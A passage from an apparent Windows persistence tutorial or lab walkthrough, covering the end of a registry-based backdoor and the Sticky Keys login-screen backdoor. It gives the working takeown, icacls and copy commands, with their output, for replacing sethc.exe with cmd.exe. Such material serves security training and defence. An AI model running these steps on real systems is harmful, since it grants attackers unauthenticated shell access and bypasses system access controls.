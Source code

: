 Notice that this registry key has no equivalent in HKLM, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

---

## 6. Backdooring the Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

We will look at two methods that rely on accessibility features to this end.

### 6.1 Sticky Keys

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` 5 times. After inputting the shortcut, we should usually be presented with a screen that looks as follows:

![image](/img/WindowsLocalPersistence/14.png)

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:

```Command Prompt
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```
